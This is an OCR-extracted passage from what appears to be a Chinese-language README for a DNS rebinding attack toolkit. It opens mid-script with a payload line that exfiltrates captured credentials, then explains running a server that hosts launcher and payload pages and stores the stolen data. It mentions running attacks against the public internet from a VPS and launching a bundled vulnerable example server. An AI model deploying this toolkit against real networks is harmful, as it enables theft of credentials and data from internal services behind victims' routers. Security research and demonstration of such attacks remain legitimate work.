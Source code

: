 ```
            return DNSRebindNode.exfiltrate('auth-example', creds)

        `}` catch (err) `{`
            return Promise.reject(err)
        `}`
    `}`
&lt;/script&gt;
&lt;/body&gt;
&lt;/html&gt;
```

### **server.js**

这个脚本用于启动`launcher.html`和`payload.html`文件，以及接受和保存从DNSRebindNode 的数据到/data文件下。对于开发，我通常在本地主机和点上运行这个服务器 `DNSRebindAttack.attack(...)` towards `127.0.0.1`. 对于生产，我通常运行在VPS云服务器上，并将 `DNSRebindAttack.attack(...)` 到公网上。

```
# run with admin privileged so that it can open port 80.
sudo node server
```

```
usage: server [-h] [-v] [-p PORT]

DNS Rebind Toolkit server

Optional arguments:
  -h, --help            Show this help message and exit.
  -v, --version         Show program's version number and exit.
  -p PORT, --port PORT  Which ports to bind the servers on. May include 
                        multiple like: --port 80 --port 1337 (default: -p 80 
                        -p 8008 -p 8060 -p 1337)

```



## 更多例子

我已经在其中加入了一个易受攻击的服务器 `examples/vulnerable-server.js`。 这个脆弱的服务必须在你的网络上运行，因为它的端口必须与server.js的端口相匹配。 要运行这个示例，请执行以下操作 ：

辅助计算机

```
# clone the repo 
git clone https://github.com/brannondorsey/dns-rebind-toolkit
cd dns-rebind-toolkit

# launch the vulnerable server
node examples/vulnerable-server
# ...
# vulnerable server is listening on 3000
```
